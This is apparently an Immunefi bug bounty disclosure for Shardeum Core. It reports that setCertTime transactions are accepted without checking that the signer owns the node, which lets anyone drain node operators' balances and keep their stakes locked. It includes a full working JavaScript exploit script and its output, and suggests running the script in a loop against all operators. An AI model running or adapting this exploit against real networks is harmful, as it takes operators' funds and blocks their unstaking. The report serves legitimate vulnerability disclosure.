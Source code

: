 # 33750 - \[BC - Critical] Abusing setCertTime Transactions to drain node ...

Submitted on Jul 28th 2024 at 19:37:22 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33750

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:

* Direct loss of funds

## Description

## Description

In shardeum there's a mechnism that can extends the expiration date of a stake certificate by the node that is belong to the particular staking. Such transaction is considered internal tx type 5, according to enum ( see ref.1) Athough shardeum check the validity (see ref.2) of the signature, its failure to check the sign owner of the transaction is the same as nominated node's public key let attacker to be able to extends the stake certification on behalf of the victim node. Since shardeum deduct ( see ref.3) transaction cost from node operator account for transaction. The third party can drain the fund. Also unstaking is not possible (see ref.4) before the stake certificate expired, thus, attacker can renew stake certificate of aparitcular node indefintely to keep the stakes locked.

References:

1. [enum](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/shardeum/shardeumTypes.ts#L95)
2. [validity](../Boost%20|%20Shardeum:%20Core/\(https:/github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L86-L111\))
3. [deduct](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/tx/setCertTime.ts#L264-L272)
4. [no possible](https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/index.ts#L3747-L3754)

## Proof of Concept

* Launch a network of legit nodes
* Please stake them
* Once you stake a node, wait for it to go active
* Node has to be staked, (Warning: this will not work on node that can be active without staking) for some reason the first few node in shardeum go active without staking. Please launch more node than minNode is set in the config, the subsequent node will require staking.
* Grab the public key of the staked node that is in the active list you want to attack its certificate
* Create an empty node project for our attack script
* `mkdir attack`
* `cd attack`
* `npm init -y`
* `npm install axios @shardus/crypto-utils`
* create a file and name `attack.js` and copy paste the source code below
* execute below script `node attack.js [insert victim public key]`,

(Example: `node attack.js b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e`)

```javascript
const axios = require ('axios');
const crypto = require('@shardus/crypto-utils')

crypto.init("69fa4195670576c0160d660c3be36556ff8d504725be8a59b5a96509e0c994bc")

const { publicKey, secretKey  } = crypto.generateKeypair()

const target = process.argv[2].replace('0x', '')

const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms))


const main = async  () => {
    console.log("Grabbing Nodelist ....");
    const res = await axios.get('http://0.0.0.0:4000/nodelist')
    let url = null
    const nodelist = res.data.nodeList
    const randomNode = nodelist[Math.floor(Math.random() * nodelist.length)]

    console.log("Finding victim node in active list ....");
    for(const node of nodelist) {
        if(node.publicKey === target) {
            url = `http://${node.ip}:${node.port}/account/${target}`
        }
    }

    if(!url) throw new ("Victim node is not in active yet")

    const res2 = await axios.get(url)


    const setCertTimeTx = {
        isInternalTx: true,
        internalTXType: 5,
        nominee: "",
        nominator: "",
        duration: 19, 
        timestamp: Date.now() + 1000,
    }


    setCertTimeTx.nominator = res2.data.account.nominator
    setCertTimeTx.nominee = target


    const nominator = setCertTimeTx.nominator.replace('0x', '').padEnd(64, '0')

    const before = await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)

    console.log("Balance and certExp before attack --------------------------------------")
    console.log(before.data);
    

    console.log("Constructing InternalTx setCertTime: ", setCertTimeTx)


    crypto.signObj(setCertTimeTx, secretKey, publicKey)
    console.log("Signing InternalTx setCertTime: ", setCertTimeTx)

    console.log("Firing InternalTx setCertTime ....")
    const res3 = await axios.post(`http://${randomNode.ip}:${randomNode.port}/inject`, setCertTimeTx)

    if(!res3.data.success) throw new Error(res3.data.reason)

    console.log("Waiting 10 sec for transaction to be finalized");
    await sleep(10000)

    const after =await axios.get(`http://${randomNode.ip}:${randomNode.port}/account/${nominator}`)
    console.log("Balance and certExp after attack --------------------------------------")
    console.log(after.data);


}

main();
```

* You can observe the balance of nominator / node operator account's balance being deducted 0.01 SHM per each tx and certExp is kept being updated to the future.

Example output -

```
Grabbing Nodelist ....
Finding victim node in active list ....
Balance and certExp before attack --------------------------------------
{
  account: {
    balance: '195700000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722164816023,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
Constructing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052
}
Signing InternalTx setCertTime:  {
  isInternalTx: true,
  internalTXType: 5,
  nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
  nominator: '0xd89f3526ae6f471277d68ad51b6bb1c646f49e0a',
  duration: 19,
  timestamp: 1722163476052,
  sign: {
    owner: 'be08c19a5bfd78484e318282a7d0c731d5572604e543aa25fb7f84d813a5db63',
    sig: '782052921152bad7d81850ee4683e5e68b5efd65fd3275db057f554241586ece42bfb67dc3c0b99e396320f21fc4e257d3615630721eb75c4238cdc1c3c7020e263d3aaae89a2a5949f6367d33efab75f8a83d4d99617d5fdcc09b028181881e'
  }
}
Firing InternalTx setCertTime ....
Waiting 10 sec for transaction to be finalized
Balance and certExp after attack --------------------------------------
{
  account: {
    balance: '195690000000000000000',
    codeHash: '0xc5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470',
    nonce: '1',
    operatorAccountInfo: {
      certExp: 1722165276052,
      nominee: 'b2ba1413988f41de86db7f7002adfbeaa97f6b294364e475feca76e2e0544d1e',
      operatorStats: [Object],
      stake: [Object]
    },
    storageRoot: '0x56e81f171bcc55a6ff8345e692c0f86e5b48e01b996cadc001622fb5e363b421'
  }
}
```

* Observe operator account's balance is drained 0.01 SHM per attack and cerExp is updated per attack. This can be run in loop.

## Impact

As stated above, this is a direct loss of fund for node operator and blocking the unstaking of a node. Attacker can modify this script to be in loop indefinity to drain the operator account and lock the unstaking forever. This can be targeted to single operator or all the operator in the network simultaneously.
